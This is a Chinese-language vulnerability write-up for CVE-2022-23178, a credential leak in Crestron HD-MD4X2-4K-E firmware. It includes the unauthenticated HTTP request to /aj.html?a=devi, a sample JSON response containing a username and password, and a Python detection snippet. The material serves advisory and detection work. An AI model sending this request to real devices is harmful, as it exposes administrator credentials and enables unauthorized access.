

# Crestron HD-MD4X2-4K-E 1.0.0.2159 设备凭证泄露漏洞（CVE-2022-23178）

## 漏洞简介
Crestron HD-MD4X2-4K-E 1.0.0.2159 设备存在凭证泄露漏洞，攻击者可通过未授权访问 `aj.html` 接口，直接获取用于登录 Web 管理界面的用户名和密码。

## 影响范围
- 受影响产品：Crestron HD-MD4X2-4K-E（固件 1.0.0.2159）
- CPE: `cpe:2.3:o:crestron:hd-md4x2-4k-e_firmware:1.0.0.2159:*:*:*:*:*:*:*`

## 漏洞原理
Web 管理接口 `aj.html` 未做访问控制，攻击者可直接访问并获取包含 `uname` 和 `upassword` 字段的 JSON 数据，导致敏感凭证泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问设备的 `/aj.html?a=devi` 接口。
2. 响应返回包含用户名和密码的 JSON 数据。
3. 攻击者据此可登录设备，进行未授权操作。

## 探测原理与流程
### 请求包示例
```http
GET /aj.html?a=devi HTTP/1.1
Host: target.com
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "uname": "admin",
  "upassword": "admin123"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中包含 `"uname":` 和 `"upassword":` 字段。

### 伪代码
```python
resp = requests.get('http://target.com/aj.html?a=devi')
if resp.status_code == 200 and all(x in resp.text for x in ['"uname":', '"upassword":']):
    print('存在凭证泄露漏洞')
```

### Mermaid 流程图


## 参考链接
- [RedTeam Pentesting 公告](https://www.redteam-pentesting.de/en/advisories/rt-sa-2021-009/-credential-disclosure-in-web-interface-of-crestron-device)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-23178)
- [Crestron 官方产品页](https://de.crestron.com/Products/Video/HDMI-Solutions/HDMI-Switchers/HD-MD4X2-4K-E)
- [Awesome-POC](https://github.com/Threekiii/Awesome-POC) 